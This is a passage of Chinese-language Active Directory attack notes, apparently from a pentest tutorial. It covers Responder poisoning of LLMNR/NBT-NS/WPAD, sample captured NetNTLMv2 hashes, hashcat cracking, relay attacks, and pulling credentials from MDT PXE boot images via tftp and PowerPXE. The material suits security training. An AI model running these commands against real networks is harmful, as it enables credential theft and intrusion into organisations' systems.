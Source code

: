             Bash
            
            ```
            sudo responder -I <interface>
            ```
            
        2. **毒化与拦截**：Responder 会监听 LLMNR, NBT-NS 和 WPAD 请求，发送伪造的响应，声称自己是客户端正在寻找的主机。当客户端连接到 Responder 托管的伪造服务（如 SMB）时，会发送其 NetNTLMv2-SSP 哈希。
            
            Plaintext
            
            ```
            [+] Listening for events...
            [SMBv2] NTLMv2-SSP Client   : <Client IP>
            [SMBv2] NTLMv2-SSP Username : ZA\<Service Account Username>
            [SMBv2] NTLMv2-SSP Hash     : <Service Account Username>::ZA:<NTLMv2-SSP Hash>
            ```
            
        3. **离线破解**：将捕获到的 NetNTLMv2 哈希保存到文件，使用 `hashcat` 进行离线破解。
            
            Bash
            
            ```
            # -m 5600 指定哈希类型为 NetNTLMv2
            hashcat -m 5600 <hash_file> <wordlist_file> --force
            ```
            
    - **传递挑战 (Pass-the-Challenge)**：一种更高级的攻击，攻击者不破解哈希，而是将截获的认证质询实时中继到目标服务器，从而冒充用户。此攻击成功的前提是 SMB 签名被禁用且被中继的账户在目标上有足够权限。
- **利用基础设施管理工具 (Exploiting Infrastructure Management Tools)**：
    
    - **背景**：微软部署工具包 (MDT) 和系统中心配置管理器 (SCCM) 用于大规模自动化部署和管理操作系统。这些工具的配置文件中可能包含敏感凭证。
    - **预启动执行环境 (PXE Boot)**：组织使用 PXE 启动来通过网络安装操作系统。MDT 可用于托管 PXE 启动镜像。
    - **示例：从 PXE 启动镜像恢复凭证**
        1. **信息获取**：通过 DHCP 或其他方式获取 MDT 服务器 IP 和 BCD 启动配置文件的路径（如 `\Tmp\x64{...}.bcd`）。
        2. **下载 BCD 文件**：使用 `tftp` 下载 BCD 文件。
            
            PowerShell
            
            ```
            tftp -i <MDT_SERVER_IP> GET "\Tmp\x64{...}.bcd" conf.bcd
            ```
            
        3. **解析 BCD 文件**：使用 `PowerPXE` 等工具从 BCD 文件中解析出 Windows 启动镜像 (.wim) 的位置。
            
            PowerShell
            
            ```
            Import-Module .\PowerPXE.ps1
            Get-WimFile -bcdFile "conf.bcd"
            ```
            
        4. **下载 WIM 镜像**：再次使用 `tftp` 下载 `.wim` 文件。
            
            PowerShell
            
            ```
            tftp -i <MDT_SERVER_IP> GET "<PXE_Boot_Image_Location>" pxeboot.wim
            ```
            